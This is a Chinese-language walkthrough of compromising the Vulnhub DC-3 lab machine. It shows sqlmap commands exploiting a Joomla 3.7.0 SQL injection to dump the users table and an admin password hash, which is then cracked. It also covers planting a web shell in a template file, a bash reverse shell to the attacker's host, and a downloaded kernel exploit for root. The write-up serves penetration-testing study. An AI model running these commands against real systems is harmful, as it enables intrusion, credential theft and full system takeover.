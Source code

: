 \> 本文由 \[简悦 SimpRead\](http://ksria.com/simpread/) 转码， 原文地址 \[mp.weixin.qq.com\](https://mp.weixin.qq.com/s/lPzg-6Eb9SF8zSi30814Iw)

说明：Vulnhub 是一个渗透测试实战网站，提供了许多带有漏洞的渗透测试靶机下载。适合初学者学习，实践。此次记录的是 DC-3 靶机，全程只有一个 falg 获取 root 权限，以下内容是自身复现的过程，总结记录下来，如有不足请多多指教。

下载地址：

Download (Mirror): http://www.five86.com/downloads/DC-3.zip

目标机 IP 地址：192.168.5.139  
攻击机 kali IP 地址：192.168.5.135

**前期准备：**

信息收集时发现目标机与攻击机不在同一网段上, 下面就对目标机进行网络配置。

![](https://mmbiz.qpic.cn/sz_mmbiz_png/zg4ibGYrEa24Tqe7BPFvN23OewTXSR8ZGFd70xKzqXHCjrSRreYiaibGgybuQfJvG8yicoZA7wZs9TjgUicicaTg3dMA/640?wx_fmt=png)

开启靶机摁‘e’速度要快，找到 root ro 将 ro 替换为 rw signie init=/bin/bash 

![](https://mmbiz.qpic.cn/sz_mmbiz_png/zg4ibGYrEa24Tqe7BPFvN23OewTXSR8ZGCII2xf5tPLfXYOoX3GYtQG1dqEjHz2sKiaTW5nczQKEF65icc03yjcXw/640?wx_fmt=png)

Ctrl+x 进入命令行。  

![](https://mmbiz.qpic.cn/sz_mmbiz_png/zg4ibGYrEa24Tqe7BPFvN23OewTXSR8ZG6Is3Viay79bTAoKiaI3y1KnqIjvicDbRcvicJfcfHKMLOGRwccBvfufRyg/640?wx_fmt=png)  

查看网卡信息， ip a 网卡名为 ens33。

![](https://mmbiz.qpic.cn/sz_mmbiz_png/zg4ibGYrEa24Tqe7BPFvN23OewTXSR8ZG3CI32zmwbORv4OIibWXMe0X0WKEBTcfclw4D1YgWbWtWZACCdL3O2tw/640?wx_fmt=png)

编辑网卡配置文件，/vim/etc/network/interfaces  发现网卡名不配，替换网卡名 ens33。

![](https://mmbiz.qpic.cn/sz_mmbiz_png/zg4ibGYrEa24Tqe7BPFvN23OewTXSR8ZGH4temGgS310EuyH82u5Dls2JdoPBRrGZNRZaiaJF2A2MGBmWc36SorA/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/sz_mmbiz_png/zg4ibGYrEa24Tqe7BPFvN23OewTXSR8ZGc7R8xRBLrRExdPr24sAiaq0tiazAQLo7czvPEIjSiaoXSUIoqp6lFs6ibQ/640?wx_fmt=png)

配置完成后，重启网卡 /etc/init.d/networking stop   /etc/init.d/networking start 

已经成功获取 ip。

![](https://mmbiz.qpic.cn/sz_mmbiz_png/zg4ibGYrEa24Tqe7BPFvN23OewTXSR8ZGu3ZMU1F6bkB8PT3TiaMw2wD3LMsRplMY5oLTib3hW6klN8VCWt42eUSg/640?wx_fmt=png)

**信息收集**

配置好 ip 下面进行信息收集。

arp-scan -l 发现目标 ip。

![](https://mmbiz.qpic.cn/sz_mmbiz_png/zg4ibGYrEa24Tqe7BPFvN23OewTXSR8ZGVicR6yrwoiaAjLiccBicibyaicmGOMUFiceibBw5svvdibDj0f3SiaHMQ0ibVhnOQ/640?wx_fmt=png)

对目标机扫描端口。  

nmap -sV -p- 192.168.5.139  -A 只开启了 web 服务，该站点是使用 joomla 创建。

![](https://mmbiz.qpic.cn/sz_mmbiz_png/zg4ibGYrEa24Tqe7BPFvN23OewTXSR8ZG8PwyDaKKmiciaejPgh18ib4ib1iazemBVvbSFbRoic7ba6NribVrMEniaDMSoA/640?wx_fmt=png)

访问后台页面。  

![](https://mmbiz.qpic.cn/sz_mmbiz_png/zg4ibGYrEa24Tqe7BPFvN23OewTXSR8ZGJO0NibfNt3VwdQCsiaL1ocP79IiafFa2Sf4bLZJ6fZ0fDdZH9k8Hwd91A/640?wx_fmt=png)

对后台路径进行爆破。

python .\\dirsearch.py -u http://192.168.5.139/ -e\*

访问爆破出来的路径。

![](https://mmbiz.qpic.cn/sz_mmbiz_png/zg4ibGYrEa24Tqe7BPFvN23OewTXSR8ZGwMbPJf1BORzagVKYick3j66gLyKuQTU8kSBOrpribD9aLjOdW5fWuzrg/640?wx_fmt=png)

http://192.168.5.139/README.txt

http://192.168.5.139/htaccess.txt

http://192.168.5.139/administrator/index.php

发现了对 joomla 的介绍，登陆后台登陆页面，

![](https://mmbiz.qpic.cn/sz_mmbiz_png/zg4ibGYrEa24Tqe7BPFvN23OewTXSR8ZGm5GdwpB1hFV3dWaO772TkseEmGtYNnms9M43QicygXf8P1aiad5mInLQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/sz_mmbiz_png/zg4ibGYrEa24Tqe7BPFvN23OewTXSR8ZGoWfj05WNXPyibhJ19Wn74qX9E0Lo6HdgR7PYfcdxRjMjnq0Wl7yjU1g/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/sz_mmbiz_png/zg4ibGYrEa24Tqe7BPFvN23OewTXSR8ZGx69ArBye3Se5icyoL4u9gwDKGPG8RsV0RSJjnM8Gs5PRkknxicPzkqDA/640?wx_fmt=png)

收集 joomla3.7.0 是否存在漏洞，该版本存在 SQL 注入漏洞（具体漏洞复现以及成因会在靶机系列结束后进行研讨分析。）, 也可使用 searchsploit 来查找版本所出现的漏洞。(“searchsploit” 是一个用于 Exploit-DB 的命令行搜索工具，它还允许你随身带一份 Exploit-DB 的副本。) 

searchsploit Jooma 3.7.0  

![](https://mmbiz.qpic.cn/sz_mmbiz_png/zg4ibGYrEa24Tqe7BPFvN23OewTXSR8ZGtibTRUMCJeib32MaeG3NSkLYGDaIPKK8lfQrUWRcghHhYYmgDfYibNreA/640?wx_fmt=png)

find ./ -name 42033.txt 搜索提示文件。查看文档内容

![](https://mmbiz.qpic.cn/sz_mmbiz_png/zg4ibGYrEa24Tqe7BPFvN23OewTXSR8ZGlUPoWAkGUg1w93kCPRnIKDScfIejfwCCkKEYtFAqaWAhoA93FfhDIQ/640?wx_fmt=png)

**攻击操作**  

根据提示，使用 Sqlmap

```
sqlmap -u "http://192.168.5.139/index.php?option=com\_fields&view=fields&layout=modal&list\[fullordering\]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list\[fullordering\]
```

将数据库爆了出来。

![](https://mmbiz.qpic.cn/sz_mmbiz_png/zg4ibGYrEa24Tqe7BPFvN23OewTXSR8ZG1cDIiajQCcxTZzA6LDzicu8mxsaH3CUOSAjnC5xib63eTiaerMtgF0pcPQ/640?wx_fmt=png)

下一步查看 joomladb 数据库中的所有表。

```
sqlmap -u "http://192.168.5.139/index.php?option=com\_fields&view=fields&layout=modal&list\[fullordering\]=updatexml" -D joomladb --tables
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/zg4ibGYrEa24Tqe7BPFvN23OewTXSR8ZGyjW7mOEn0Gp4pibtxiae1gzWoPEd0FdPV9LKFCEdn4iaaDAoWsdggFqvg/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/sz_mmbiz_png/zg4ibGYrEa24Tqe7BPFvN23OewTXSR8ZGSyCnY3rr0HSk96F2Zp37h0JN7HpicH6CfeoqhnU38RQpr379t9vrqicw/640?wx_fmt=png)

下一步查看 #\_\_users 表中的字段。

```
sqlmap -u "http://192.168.5.139/index.php?option=com\_fields&view=fields&layout=modal&list\[fullordering\]=updatexml" -D joomladb -T "#\_\_users" --columns
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/zg4ibGYrEa240qibogBstibG4WSWnEQNrsMFa6Lrt5VIektEVcBibic0CJq9DB1RC8ArOL6B8zvY6Lf24L8wTKZtlmg/640?wx_fmt=png)

查看 name 字段与 password 字段，获取用户与密码。  

admin/$2y$10$DpfpYjADpejngxNh9GnmCeyIHCWpL97CVRnGeZsVJwR0kWFlfB1Zu

```
sqlmap -u "http://192.168.5.139/index.php?option=com\_fields&view=fields&layout=modal&list\[fullordering\]=updatexml" -D joomladb -T "#\_\_users" -C  "name,password" --dump
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/zg4ibGYrEa240qibogBstibG4WSWnEQNrsMs8lStEjiaLibiaXG6O0YJXp3HrBJN04CyvhibmGW2VxiaVSlicYDmUboI8jA/640?wx_fmt=png)

将密码存入文件中，使用 john 进行解密。

john 可使用字典破解用户密码的 hash 值。破解密码为 snooy。

![](https://mmbiz.qpic.cn/sz_mmbiz_png/zg4ibGYrEa240qibogBstibG4WSWnEQNrsMVoCQz6a2nejZ7xWgmAO4g0oriaJFfly1rzmn8kAE9Cg8ozmqGrr3DEw/640?wx_fmt=png)

登陆成功。  

![](https://mmbiz.qpic.cn/sz_mmbiz_png/zg4ibGYrEa240qibogBstibG4WSWnEQNrsMElCFo0BCDGiaicmIwGMzwNFQmPpwK8tG5rdMhgeZM07ByJ2ETnSbabEw/640?wx_fmt=png)

点击模板管理，查看详情，修改文件 modules.php，写入木马。  

![](https://mmbiz.qpic.cn/sz_mmbiz_png/zg4ibGYrEa240qibogBstibG4WSWnEQNrsMSynPe3mYq3TSFyDicx2D9ELogIAX5y8pfNqpgG7zroYbOhJyYiblFbibQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/sz_mmbiz_png/zg4ibGYrEa240qibogBstibG4WSWnEQNrsM9vgkicNDcPBF8iaB1EGMwKcf4Xpz0yxtr1kRc7c6XuvsQvvAxkmibvZMA/640?wx_fmt=png)

写入后访问 http://192.168.5.139/templates/beez3/html/

使用蚁剑链接木马。

http://192.168.5.139/templates/beez3/html/modules.php

![](https://mmbiz.qpic.cn/sz_mmbiz_png/zg4ibGYrEa240qibogBstibG4WSWnEQNrsMXqqZJxacE3GibkJzTtN4ibY43R1gNXxA0HQpKQFccyqr4HLXVcI5E2CQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/sz_mmbiz_png/zg4ibGYrEa240qibogBstibG4WSWnEQNrsMhaZJOWU22TmNdzOAm9RDMmj2ibaK2KR0JRNu8RuANLfbbzobLMxryUg/640?wx_fmt=png)

反弹 shell: bash -c 'bash -i >& /dev/tcp/192.168.5.135/7777 0>&1' 

反弹成功。

![](https://mmbiz.qpic.cn/sz_mmbiz_png/zg4ibGYrEa240qibogBstibG4WSWnEQNrsMFOh1yVPtca9ZrT85icfl67wjEQQyI8x8WZ7LcpjKnQ0zfw3rXAtjLFA/640?wx_fmt=png)

溜达了一圈未发现可利用的东西。查看一下服务器操作版本。看看可否进行提权。

lsb\_release -a

Ubuntu 16.04

![](https://mmbiz.qpic.cn/sz_mmbiz_png/zg4ibGYrEa240qibogBstibG4WSWnEQNrsMOknSdUpmKJhySq2yesqSvSvaZnGS1gvEvy4SdWGajVuYSvrQE93FSw/640?wx_fmt=png)

searchsploit Ubuntu 16.04

发现一项内核漏洞可以提权。

![](https://mmbiz.qpic.cn/sz_mmbiz_png/zg4ibGYrEa240qibogBstibG4WSWnEQNrsM0LVG4tXrxXoHEhZUOCWibKse7XSABYicnXXXWFepbO4rqib01wVt13Tbw/640?wx_fmt=png)

find ./ -name   39772.txt 搜索详情文件所在路径。文件提示了该漏洞的利用方式，提供了利用工具的下载地址，下载使用 wget 进行下载，下载后解压。

![](https://mmbiz.qpic.cn/sz_mmbiz_png/zg4ibGYrEa240qibogBstibG4WSWnEQNrsMwLlTECcJDYibgtxKthcr6TAoiaw4ot5rmCKcvVibOIvCuetjdI1ibUFsSA/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/sz_mmbiz_png/zg4ibGYrEa240qibogBstibG4WSWnEQNrsMUpPiaDRFp13FHxDaricOZs3MZEK6k1xRVyRgFIYclib8cLPxibYeucvTVA/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/sz_mmbiz_png/zg4ibGYrEa240qibogBstibG4WSWnEQNrsMeSBkoE6eBlgCzhcTVyghD5Nz0kXV2P3ic9WSFicDrfvBBGdichOqCtHJw/640?wx_fmt=png)

```
wget https://github.com/offensive-security/exploitdb-bin-sploits/raw/master/bin-sploits/39772.zip
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/zg4ibGYrEa240qibogBstibG4WSWnEQNrsMyZ8Gjiatw8q8gsQedic543l7fNV6TwpHagFryb2HLTYyoOPeG0S2tS8w/640?wx_fmt=png)

进行解压  

unzip 39772.zip 

tar -xvf exploit.tar 

cd ebpf\_mapfd\_doubleput\_exploit

![](https://mmbiz.qpic.cn/sz_mmbiz_png/zg4ibGYrEa240qibogBstibG4WSWnEQNrsM4pGecJTJ2lQSP13iaEODc8Kaof4mPOnz93lAjAGRz6cLA2o7A5riayQQ/640?wx_fmt=png)

执行./compile.sh （编译会出现 waring 可以忽视）。

![](https://mmbiz.qpic.cn/sz_mmbiz_png/zg4ibGYrEa240qibogBstibG4WSWnEQNrsMXc9AoMWOxCMRlej3GQwrKDTA3ibQONibZiaBv1h8VU8O4GyQmLXNFLia9Q/640?wx_fmt=png)

执行./doubleput，进行提权，稍等片刻提权成功。

![](https://mmbiz.qpic.cn/sz_mmbiz_png/zg4ibGYrEa240qibogBstibG4WSWnEQNrsMU0STBDQlmJRX7HG0XMZMmJIGG9eYotqr62PGadznaCs0W5pDe1VBaA/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/sz_mmbiz_png/zg4ibGYrEa240qibogBstibG4WSWnEQNrsMiaFCxhdOnhdGRPEYpcYkL6bAMVFwianQ09UzStHb1sqXUP5FqN3hBBwQ/640?wx_fmt=png)